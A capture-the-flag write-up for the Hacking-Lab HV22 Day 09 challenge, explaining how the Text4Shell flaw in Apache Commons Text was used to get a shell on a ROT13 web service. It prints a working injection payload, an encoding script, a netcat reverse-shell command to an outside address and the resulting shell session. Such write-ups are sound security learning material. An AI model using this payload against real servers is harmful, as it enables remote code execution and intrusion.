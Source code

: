 CSS: ../meta/avenir-white.css

[← Day 08](../day08/) / [↑ TOC](../README.md) / [→ Day 10](../day10/)


# Day 09 / HV22.09 Santa's Text



## Challenge

* Author: yuva
* Tags:   `#pentest`
* Level:  medium

Santa recently created some Text with a 🐚, which is said to be vulnerable code.
Santa has put this Text in his library, putting the library in danger. He
doesn't know yet that this could pose a risk to his server. Can you backdoor the
server and find all of Santa's secrets?



## Solution

This challenge. It was not my friend. It took me a loooong time, a little
help from _bread_ to find the right rabbit hole and some sanity-checking from
_jokker_ to to uncover a stupid mistake: thank you both!

The challenge consisted of a web service where you could "search for a gift" by
entering a string ...

![](screenGiftSearchPage.png)

The entered string would seemingly be transformed into something else. The
transformation scheme was easily identified as [ROT13][wenRot13] for lower and
upper case alphabetic characters.

Example: `Hello` becomes `Uryyb`

[wenRot13]: https://en.wikipedia.org/wiki/ROT13

I decided to switch to _curl(1)_ in order to gain more precise control over
the input data ... \
(The trailing `| tr '\r' '\n'` was necessary to convert the carriage-returns
`\r` in the response into proper linefeeds `\n`.)

``` sh
$ serverAddr="f1151278-df4e-4fe8-8703-701c41e26fff.idocker.vuln.land"

$ curl https://$serverAddr/santa/attack/?search="gimmiflag" | tr '\r' '\n'
[...]
<p>Here is your gift:</p> 
<p class="p1">tvzzvSynt<br>Did it work?</b>
<br>
[...]

$ curl https://$serverAddr/santa/attack/?search="tvzzvSynt" | tr '\r' '\n'
[...]
<p>Here is your gift:</p> 
<p class="p1">gimmiFlag<br>Did it work?</b>
<br>
[...]
```

I spent at least one hour trying to find a suitable shell code injection. But
there were none to be found. At least another hour was spent trying to make
log4shell working. No dice.

The previously mentioned right rabbit hole was: `text4shell`.

One could have come to that insight by web searching for `text shell vulnerable
backdoor` (all words from the description) but I simply hadn't tried exactly
these words together. Also I have to admit, that I hadn't heard about
`text4shell` up to that point.

Anyways there is a nice [blog article about text4shell][blogText4Shell], that I
used to solve the challenge. It boils down the following: Within the _Apache
Commons Text Library_ there is a handy-dandy method to replace specifically marked
up text passages with something else. For example if `The quick brown
${fastAnimal} jumps over the lazy ${slowAnimal}` is the marked up text, then the
idea is that you create a hash map to define replacements. Something along the
lines of ...

[blogText4Shell]: https://securityboulevard.com/2022/10/vulnerability-explained-remote-code-execution-through-text4shell/

``` java
[...]
hashMap.put("fastAnimal","fox");
hashMap.put("slowAnimal","dog");
[...]
```

Applying the handy-dandy method triggers the replacement ...

``` java
[...]
StringSubstitutor sub = new StringSubstitutor(hashMap);
String output = sub.replace("The quick brown ${fastAnimal} jumps over the lazy ${slowAnimal}")
[...]
```

The interesting part about this `StringSubstitutor` is, that it can also do
predefined replacements. For example `${date:yyyy-MM-dd}` would be replaced
with the current date. (Notice the colon in further examples.)

Even more interesting: There is also a predefined replacement scheme by the name
`script`. It is meant to be used to execute something and be replaced with what
ever the execution returns. It can be used to execute an arbitrary shell command
and thus as an exploit ...

``` java
${script:javascript:java.lang.Runtime.getRuntime().exec('echo OhNoes')}
```

To be clear: the whole line here gets replaced with `OhNoes`.

On the challenge server there is probably such a replacement method in use to do
the Rot13. The circumstance can be used to run a reverse shell command. But
whatever string we want to get in there has to overcome two hurdles first:

1. Everything must be url-encoded
2. The exploit code has to survive the rot13

A shellscript `encode.sh` was written to handle both problems ...

``` sh
#!/bin/bash

urlencode() (
    string=${*:-$(
        cat -
        printf x
    )}
    [ -n "$*" ] || string=${string%x}
    # Zero index, + 1 to start from 1 since sed starts from 1
    lines=$(($(printf %s "$string" | wc -l) + 1))
    lineno=1
    while [ $lineno -le $lines ]; do
        currline=$(printf %s "$string" | sed "${lineno}q;d")
        pos=1
        chars=$(printf %s "$currline" | wc -c)
        while [ $pos -le "$chars" ]; do
            c=$(printf %s "$currline" | cut -b$pos)
            case $c in
            [-_.~a-zA-Z0-9]) printf %c "$c" ;;
            *) printf %%%02X "'${c:-\n}'" ;;
            esac
            pos=$((pos + 1))
        done
        [ $lineno -eq $lines ] || printf %%0A
        lineno=$((lineno + 1))
    done
)

rot13() {
    echo "$1" \
    | tr 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ' \
         'nopqrstuvwxyzabcdefghijklmNOPQRSTUVWXYZABCDEFGHIJKLM'
}

urlencode "$(rot13 "$1")"
```

(Note: it's not wise to do the rot13 last because that also rotates the hex `:^)`)

The final attack worked something like this. A netcat reverse shell was used as
injection. \
(In reality the whole process was far messier `;-)`)

``` sh
$ serverAddr="f1151278-df4e-4fe8-8703-701c41e26fff.idocker.vuln.land"
$ serverUrl="https://${serverAddr}/santa/attack/"

$ inject='nc 10.13.0.70 4242 -e /bin/bash'
$ payload='${script:javascript:java.lang.Runtime.getRuntime().exec("'"$inject"'")}'

$ curl ${serverUrl}?search="$(./encode.sh "$payload")"
```

A netcat listener was setup beforehand to receive the reverse shell connection.
It is followed by the shell session that shows navigating to and printing out
the file `/SANTA/FLAG.txt` on the vulnerable server instance ...

``` sh
$ nc -vlp 4242
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4242
Ncat: Listening on 0.0.0.0:4242
Ncat: Connection from 152.96.7.3.
Ncat: Connection from 152.96.7.3:39623.
cd /
ls
SANTA
app
bin
dev
etc
flag-deploy-scripts
home
init
lib
libexec
media
mnt
opt
proc
release.txt
root
run
sbin
src
srv
sys
tmp
usr
var
web
cd SANTA
ls
FLAG.txt
cat FLAG.txt
HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}
```

--------------------------------------------------------------------------------

Flag: `HV22{th!s_Text_5h€LL_Com€5_₣₹0M_SANTAA!!}`

[← Day 08](../day08/) / [↑ TOC](../README.md) / [→ Day 10](../day10/)
